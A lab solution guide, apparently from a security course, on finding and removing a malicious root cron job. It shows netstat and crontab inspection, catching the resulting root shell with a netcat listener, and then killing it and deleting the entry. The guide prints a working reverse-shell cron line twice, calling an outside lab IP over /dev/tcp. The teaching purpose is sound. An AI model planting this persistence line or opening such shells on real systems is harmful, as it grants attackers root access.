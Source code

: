 ## Solution Guide: Attacking `cron`

Completing this activity required the following steps: 

- Using `sudo su` to acquire root privilege user access.
- Using `netstat -atp` to check for established TCP connections.
- Using `sudo crontab -l` to inspect the `root` user's crontab.
- Using `nc -nvlp 888` to open a listener in an attacker's terminal.
- Using `kill (PID)` to terminate an active TCP connection.
- Using `sudo crontab -e` to edit the `root` user's crontab.

### Identifying Rogue Connections

- Inspect your network connections. **Note:** Not all processes can be identified, since non-owned process info will not be shown. You will need to be root to see it all active tcp connections.

     - Run: `sudo su`

- Look for established TCP port connections using the `netstat` command which also displays foreign port and address information. The output should also display the process ID (`PID`) and program name.

    - Run `netstat -atp`
  ```bash
  $ netstat -atp
  Active Internet connections (servers and established)
  Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
  tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      415/systemd-resolve
  tcp        0      0 localhost:ipp           0.0.0.0:*               LISTEN      541/cupsd           
  tcp        0      0 ubuntu:40444            192.168.188.164:888     ESTABLISHED 5553/bash           
  tcp6       0      0 ip6-localhost:ipp       [::]:*                  LISTEN      541/cupsd           
  ```

- Inspect the `root` crontab and look for any suspicious cron jobs.

    - Run `sudo crontab -l`
  ```bash
  $ sudo crontab -l
  */1 *   * * *           /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1'
  ```

### Inspecting Processes

- Launch Kali Linux within your virtual machine environment, log in, and open a new terminal.

- Using Netcat, establish a listener to the port identified in the Netcat output from earlier.

  - Run `nc -nvlp 888`

  - Since the attacker's `cron` job runs every minute, wait for the next cycle. After waiting one minute you should get a command prompt with root privileges.

    ```bash
    $ nc -nvlp 888
    listening on [any] 888 ...

    connect to [192.168.188.164] from (UNKNOWN) [192.168.188.163] 36266
    bash: cannot set terminal process group (5878): Inappropriate ioctl for device
    bash: no job control in this shell
    root@ubuntu:~#
    ```
Let's have some fun and run a few commands:

- Run `whoami` and observe the output.
  
    ```bash
    $ whoami
    root
    ```

- Run `uname -a` and observe the output.
  
    ```bash
    $ uname -a
    Linux ubuntu 5.0.0-31-generic #33~18.04.1-Ubuntu SMP Tue Oct 1 10:20:39 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    ```

- Run `cat /etc/passwd` and observe the output.
  
    ```bash
    $ cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    mysql:x:104:110:MySQL Server,,,:/nonexistent:/bin/false
    ntp:x:105:111::/nonexistent:/usr/sbin/nologin
    messagebus:x:106:112::/nonexistent:/usr/sbin/nologin
    arpwatch:x:107:113:ARP Watcher,,,:/var/lib/arpwatch:/bin/sh
    Debian-exim:x:108:114::/var/spool/exim4:/usr/sbin/nologin
    uuidd:x:109:115::/run/uuidd:/usr/sbin/nologin
    redsocks:x:110:116::/var/run/redsocks:/usr/sbin/nologin
    tss:x:111:117:TPM2 software stack,,,:/var/lib/tpm:/bin/false
    rwhod:x:112:65534::/var/spool/rwho:/usr/sbin/nologin
    iodine:x:113:65534::/var/run/iodine:/usr/sbin/nologin
    miredo:x:114:65534::/var/run/miredo:/usr/sbin/nologin
    dnsmasq:x:115:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    postgres:x:116:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
    usbmux:x:117:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    rtkit:x:118:123:RealtimeKit,,,:/proc:/usr/sbin/nologin
    stunnel4:x:119:127::/var/run/stunnel4:/usr/sbin/nologin
    sshd:x:120:65534::/run/sshd:/usr/sbin/nologin
    Debian-snmp:x:121:128::/var/lib/snmp:/bin/false
    sslh:x:122:129::/nonexistent:/usr/sbin/nologin
    pulse:x:123:131:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
    speech-dispatcher:x:124:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
    avahi:x:125:134:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
    saned:x:126:135::/var/lib/saned:/usr/sbin/nologin
    inetsim:x:127:137::/var/lib/inetsim:/usr/sbin/nologin
    colord:x:128:138:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
    geoclue:x:129:139::/var/lib/geoclue:/usr/sbin/nologin
    king-phisher:x:130:140::/var/lib/king-phisher:/usr/sbin/nologin
    Debian-gdm:x:131:141:Gnome Display Manager:/var/lib/gdm3:/bin/false
    dradis:x:132:142::/var/lib/dradis:/usr/sbin/nologin
    beef-xss:x:133:143::/var/lib/beef-xss:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/sbin/nologin
    _rpc:x:134:65534::/run/rpcbind:/usr/sbin/nologin
    statd:x:135:65534::/var/lib/nfs:/usr/sbin/nologin
    ftp:x:136:145:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
    ```

### Eliminating the Root Cause

- Kill the process running the reverse shell by terminating the `PID`, or process ID.

    - Run `kill 5553`


- Remove the `cron` job from the `root` crontab. Edit the crontab, scroll to the bottom and delete the malicious `cron` job.

    - Run `sudo crontab -e`

    ```bash
    $ sudo crontab -e
    */1 * * * *  /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1'
    ```
